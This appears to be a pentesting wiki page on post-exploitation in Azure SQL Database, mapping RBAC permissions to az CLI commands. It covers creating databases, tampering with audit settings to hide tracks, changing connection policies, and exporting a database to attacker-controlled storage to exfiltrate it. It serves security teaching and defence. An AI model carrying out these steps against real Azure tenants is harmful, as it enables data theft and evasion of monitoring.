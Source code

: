 # Az - SQL Database Post Exploitation

{{#include ../../../banners/hacktricks-training.md}}

## SQL Database Post Exploitation

For more information about SQL Database check:

{{#ref}}
../az-services/az-sql.md
{{#endref}}

### `Microsoft.Sql/servers/databases/read`, `Microsoft.Sql/servers/read` && `Microsoft.Sql/servers/databases/write`

With these permissions, an attacker can create and update databases within the compromised environment. This post-exploitation activity could allow an attacker to add malicious data, modify database configurations, or insert backdoors for further persistence, potentially disrupting operations or enabling additional malicious actions.

```bash
# Create Database
az sql db create --resource-group <resource-group> --server <server-name> --name <new-database-name>

# Update Database
az sql db update --resource-group <resource-group> --server <server-name> --name <database-name> --max-size <max-size-in-bytes>
```

### `Microsoft.Sql/servers/elasticPools/write` && `Microsoft.Sql/servers/elasticPools/read`

With these permissions, an attacker can create and update elasticPools within the compromised environment. This post-exploitation activity could allow an attacker to add malicious data, modify database configurations, or insert backdoors for further persistence, potentially disrupting operations or enabling additional malicious actions.

```bash
# Create Elastic Pool
az sql elastic-pool create \
    --name <new-elastic-pool-name> \
    --server <server-name> \
    --resource-group <resource-group> \
    --edition <edition> \
    --dtu <dtu-value>

# Update Elastic Pool
az sql elastic-pool update \
    --name <elastic-pool-name> \
    --server <server-name> \
    --resource-group <resource-group> \
    --dtu <new-dtu-value> \
    --tags <key=value>
```

### `Microsoft.Sql/servers/auditingSettings/read` && `Microsoft.Sql/servers/auditingSettings/write`

With this permission, you can modify or enable auditing settings on an Azure SQL Server. This could allow an attacker or authorized user to manipulate audit configurations, potentially covering tracks or redirecting audit logs to a location under their control. This can hinder security monitoring or enable it to keep track of the actions. NOTE: To enable auditing for an Azure SQL Server using Blob Storage, you must attach a storage account where the audit logs can be saved.

```bash
az sql server audit-policy update \
  --server <server_name> \
  --resource-group <resource_group_name> \
  --state Enabled \
  --storage-account <storage_account_name> \
  --retention-days 7
```

### `Microsoft.Sql/locations/connectionPoliciesAzureAsyncOperation/read`, `Microsoft.Sql/servers/connectionPolicies/read` && `Microsoft.Sql/servers/connectionPolicies/write`

With this permission, you can modify the connection policies of an Azure SQL Server. This capability can be exploited to enable or change server-level connection settings

```bash
az sql server connection-policy update \
  --server <server_name> \
  --resource-group <resource_group_name> \
  --connection-type <Proxy|Redirect|Default>
```

### `Microsoft.Sql/servers/databases/export/action`

With this permission, you can export a database from an Azure SQL Server to a storage account. An attacker or authorized user with this permission can exfiltrate sensitive data from the database by exporting it to a location they control, posing a significant data breach risk. It is important to know the storage key to be able to perform this.

```bash
az sql db export \
  --server <server_name> \
  --resource-group <resource_group_name> \
  --name <database_name> \
  --storage-uri <storage_blob_uri> \
  --storage-key-type SharedAccessKey \
  --admin-user <admin_username> \
  --admin-password <admin_password>

```

### `Microsoft.Sql/servers/databases/import/action`

With this permission, you can import a database into an Azure SQL Server. An attacker or authorized user with this permission can potentially upload malicious or manipulated databases. This can lead to gaining control over sensitive data or by embedding harmful scripts or triggers within the imported database. Additionaly you can import it to your own server in azure. Note: The server must allow Azure services and resources to access the server.

```bash
az sql db import --admin-user <admin-user> \
--admin-password <admin-password> \
--name <target-database-name> \
--server <azure-sql-server-name> \
--resource-group <resource-group-name> \
--storage-key-type SharedAccessKey \
--storage-key <storage-account-key> \
--storage-uri `https://<storage-account-name>.blob.core.windows.net/bacpac-container/MyDatabase.bacpac`
```

{{#include ../../../banners/hacktricks-training.md}}



